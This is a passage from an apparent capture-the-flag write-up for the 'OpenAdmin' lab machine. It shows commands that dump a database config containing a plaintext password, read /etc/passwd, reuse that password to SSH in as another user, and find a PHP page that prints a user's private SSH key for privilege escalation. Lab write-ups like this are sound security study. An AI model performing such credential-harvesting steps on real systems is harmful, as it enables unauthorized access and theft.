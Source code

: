 ```bash
logout.php
modules
plugins
winc
workspace_plugins
$ ls local/config
database_settings.inc.php
motd.txt.example
run_installer
$ cat /local/config/database_settings.inc.php
$ cat local/config/database_settings.inc.php 
<?php

$ona_contexts=array (
  'DEFAULT' => 
  array (
    'databases' => 
    array (
      0 => 
      array (
        'db_type' => 'mysqli',
        'db_host' => 'localhost',
        'db_login' => 'ona_sys',
        'db_passwd' => 'n1nj4W4rri0R!',
        'db_database' => 'ona_default',
        'db_debug' => false,
      ),
    ),
    'description' => 'Default data context',
    'context_color' => '#D3DBFF',
  ),
);
```
Reading this file we find a password but we cant tell for what user its for.

We use ls to list the contents of the directories as we cannot use `cd` in the restricted shell.

We read the /etc/passwd file to get a list of users and we find that there is a user called `jimmy` on the box.

We ssh as jimmy into the box | `ssh jimmy@10.10.10.171` and use the password `n1nj4W4rri0R!`

We then go to enumerate folders and files and after a while we come accross a `main.php` file in `/var/www/internal`:

```php
<?php session_start(); if (!isset ($_SESSION['username'])) { header("Location: /index.php"); }; 
# Open Admin Trusted
# OpenAdmin
$output = shell_exec('cat /home/joanna/.ssh/id_rsa');
echo "<pre>$output</pre>";
?>
<html>
<h3>Don't forget your "ninja" password</h3>
Click here to logout <a href="logout.php" tite = "Logout">Session
</html>
```
It seems to be reading the ssh key for joanna which is another user on the box, We realise that the method to privelage escalate on this box is going to be through this web page to get the ssh-key.
